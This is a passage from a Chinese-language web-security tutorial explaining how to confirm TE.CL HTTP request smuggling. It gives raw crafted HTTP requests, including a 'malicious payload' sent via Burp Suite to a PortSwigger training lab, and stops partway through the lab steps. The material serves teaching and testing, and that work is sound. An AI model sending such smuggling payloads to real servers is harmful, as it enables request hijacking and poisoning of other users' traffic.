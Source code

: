 [![](assets/1704418275-8d4bd75ebbbd115f4cbeb4846458e6b2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103154703-48bf7c7a-aa0c-1.png)

#### TE.CL vulnerabilities

如果要确认一个 TE.CL 漏洞，我们可以发送如下请求：

```bash
POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

7c
GET /404 HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 144

x=
0
```

如果目标系统存在漏洞且被攻击成功，那么从 GET /404 开始的所有内容都会被后端服务器视为属于接收到的下一个请求，这将导致后续的"正常"请求如下所示：

```bash
GET /404 HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 146

x=
0

POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

q=smuggling
```

下面我们通过一个靶场进行简单的演示：  
靶场地址：[https://portswigger.net/web-security/request-smuggling/finding/lab-confirming-te-cl-via-differential-responses](https://portswigger.net/web-security/request-smuggling/finding/lab-confirming-te-cl-via-differential-responses)  
测试演示：  
Step 1：访问靶场并点击"ACCESS THELAB"进入到靶场  
[![](assets/1704418275-46c9cd32217bdc84880f10ff08ca49c3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103154841-833198f2-aa0c-1.png)  
Step 2：使用 burpsuite 抓包并构造如下恶意请求载荷

```bash
POST / HTTP/1.1
Host: 0a71000f036353f181142ace00340041.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

5e
POST /404 HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0
```